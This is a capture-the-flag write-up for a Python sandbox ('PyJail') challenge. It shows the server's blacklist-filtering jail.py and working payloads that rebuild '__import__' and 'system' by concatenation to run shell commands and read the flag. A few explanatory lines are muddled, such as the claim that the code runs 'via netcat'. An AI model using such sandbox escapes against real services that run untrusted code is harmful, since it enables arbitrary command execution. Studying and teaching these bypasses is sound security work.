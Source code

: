 # PRISON BREAK Cell 1 – 300 pts
Category: PyJail
Description:

This is just a PyJail

To connect:
nc `192.168.8.136 10014`

## Challenge Overview
The server accepts arbitrary Python input, but blacklists certain keywords before executing the payload via os.execv. The main idea is to execute arbitrary Python code within a restricted environment, i.e., a PyJail.

jail.py:

```python

import os
import sys

confiscated_tools = ['os', 'import', 'flag', 'system']

hax = input("> ")
sys.stdin.close()

if len(hax) > 1024:
    exit(1)

for tool in confiscated_tools:
    if tool in hax:
        exit(1)

code = f"""
{hax}
""".strip()

os.execv(sys.executable, [sys.executable, "-c", code])
```


## Blacklist & Execution
Blacklisted substrings: ```"os", "import", "flag", "system"</span>```


The input is injected into a dynamically constructed string and executed via `netcat`


Any input containing blacklisted substrings gets rejected. Substring matching is used (if tool in hax), not full-word matching or regex. This makes it possible for `"__import__"` or even "syst" + "em" to be blocked, since "import" and "system" are substrings of those.


## Exploitation Strategy
To bypass the jail, I used the following strategy:

Avoid all blacklisted substrings, even when they appear within larger words.

Dynamically reconstruct banned keywords like "import", "os", and "system" using string concatenation.

Use __builtins__ as a starting point to avoid using import directly.

## Working Payloads
### Step 1: List the directory to confirm the flag file

``(__builtins__.__dict__['__im'+'port__']('o'+'s').__dict__['syst'+'em'])('ls')``

Output:
``flag.txt
run``

### Step 2: Read the flag
``(__builtins__.__dict__['__im'+'port__']('o'+'s').__dict__['syst'+'em'])('cat 
flag.txt')``

This bypasses the jail and prints the flag: CITU{th1s_1s_jus7_4n_ez_0n3_w4rd3n_1s_c4r3l3ss}










